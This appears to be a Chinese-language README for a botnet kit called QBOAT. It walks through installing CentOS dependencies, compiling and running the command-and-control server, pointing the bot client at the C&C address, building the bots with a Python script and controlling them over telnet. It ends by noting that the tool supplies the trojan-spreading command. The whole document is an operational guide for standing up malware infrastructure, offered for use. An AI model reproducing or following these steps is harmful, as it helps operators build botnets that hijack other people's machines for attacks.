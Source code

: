 # 非常哈基米的僵尸网络(QBOAT)  
`首先你得有一个centos 7系统`  
然后安装依赖  
```bash
centos的源一般都已经失效了，除非你真的不怕死，你可以用阿里云或者腾讯云，来运行此船上网络
备用centos7源安装方式:
curl -o /etc/yum.repos.d/CentOS-Base.repo

http://mirrors.aliyun.com/repo/Centos-7.repo
yum update -y
yum install epel-release -y
yum install vim screen gcc perl wget lbzip bzip2 unzip httpd -y
```
## 然后编译cnc主端  
```bash
gcc server.c -o server -pthread
```
## 编译完主端你就可以先运行了
```bash
#创建一个登录文件
vi login.txt
#格式:
用户名 密码
#然后启动主端
screen ./server 监听船端口 线程 telnet连接端口
ctrl+a+d退出
如果你想查看主端可以先输入指令
screen -ls
查看会话
然后
screen -r 会话名
```
## 更换client.c的cnc 地址和端口
```c
client.c:


unsigned char *commServer[] = {"ip:port", "ip:port"};

```
## 编译船
```python
#忘了这个哈哈

python boat_install.py client.c 你的公网IP
```
## 连接cnc端
```
目前Windows自带的telnet连接不怎么行，跟坨臭屎一样
所以你需要一个Linux系统，乌班图或者centos
有些不自带telnet，自己去搜安装方式
安装完之后
telnet 你的服务器的公网ip 你设置的连接端口
```
## 教程结束，完结撒花
`完事就是这么简单`  
`传马命令他会给出的`  
`后面船自己弄`  
